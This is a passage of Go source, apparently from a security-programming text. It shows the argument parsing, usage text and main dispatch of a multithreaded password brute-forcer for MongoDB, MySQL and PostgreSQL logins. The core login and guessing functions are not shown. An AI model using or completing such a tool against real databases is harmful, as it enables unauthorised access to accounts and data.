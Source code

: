 ```
   // Wait for all threads before returning 
   for activeThreads > 0 { 
      <-doneChannel 
      activeThreads -= 1 
   } 
} 

func checkArgs() (string, string, string, string, string) { 
   // Since the database name is not required for Mongo or Mysql 
   // Just set the dbName arg to anything. 
   if len(os.Args) == 5 && 
      (os.Args[1] == "mysql" || os.Args[1] == "mongo") { 
      return os.Args[1], os.Args[2], os.Args[3], os.Args[4],   
      "IGNORED" 
   } 
   // Otherwise, expect all arguments. 
   if len(os.Args) != 6 { 
      printUsage() 
      os.Exit(1) 
   } 
   return os.Args[1], os.Args[2], os.Args[3], os.Args[4], os.Args[5] 
} 

func printUsage() { 
   fmt.Println(os.Args[0] + ` - Brute force database login  

Attempts to brute force a database login for a specific user with  
a password list. Database name is ignored for MySQL and Mongo, 
any value can be provided, or it can be omitted. Password file 
should contain passwords separated by a newline. 

Database types supported: mongo, mysql, postgres 

Usage: 
  ` + os.Args[0] + ` (mysql|postgres|mongo) <pwFile>` +
     ` <user> <host>[:port] <dbName> 

Examples: 
  ` + os.Args[0] + ` postgres passwords.txt nanodano` +
      ` localhost:5432  myDb   
  ` + os.Args[0] + ` mongo passwords.txt nanodano localhost 
  ` + os.Args[0] + ` mysql passwords.txt nanodano localhost`) 
} 

func main() { 
   dbType, passwordFile, username, host, dbName = checkArgs() 

   switch dbType { 
   case "mongo": 
       loginFunc = loginMongo 
   case "postgres": 
       loginFunc = loginPostgres 
   case "mysql": 
       loginFunc = loginMysql 
   default: 
       fmt.Println("Unknown database type: " + dbType) 
       fmt.Println("Expected: mongo, postgres, or mysql") 
       os.Exit(1) 
   } 

   doneChannel = make(chan bool) 
   bruteForce() 
} 
```